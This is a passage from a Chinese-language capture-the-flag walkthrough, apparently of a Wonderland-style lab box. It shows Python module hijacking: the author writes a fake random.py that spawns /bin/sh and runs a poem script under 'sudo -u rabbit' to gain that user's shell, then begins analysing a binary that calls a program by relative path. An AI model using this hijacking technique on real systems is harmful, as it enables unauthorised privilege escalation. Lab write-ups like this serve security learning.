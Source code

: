看起来就是利用 random 库实现一个随机打印 10 行诗歌，我们定位一个 random 库的位置，先看一下 python3 模块的目录

```plain
python3 -c 'import sys; print (sys.path)'
```

[![](assets/1706771526-b3e7ae38bddb0faff0141a2668266b23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222738-8de09324-beb2-1.png)

发现这里有一个空白的的模块未被使用

这里我创建了一个起/bin/sh 的脚本

```plain
import os

os.system('/bin/sh')
```

[![](assets/1706771526-f8c2be0a98782916164ff2589b098927.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222744-9159518a-beb2-1.png)

这样和 walrus 脚本在同一目录，这样的话，他和 random.py 是调用模块是一样的，我们如果执行了 walrus 脚本，也可以执行 random.py

```plain
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

[![](assets/1706771526-9ed275cb4b24560cfdf7da4429c879f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222750-94835d10-beb2-1.png)

### 调用二进制文件相对路径的坏处

进入 rabbit 目录，发现有一个 64 位的二进制文件，直接执行发现没有提权，IDA 分析一下，发现 main 函数存在逻辑问题

[![](assets/1706771526-cca06f65ddab20863f60d8f302aca4f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222754-97524dbc-beb2-1.png)
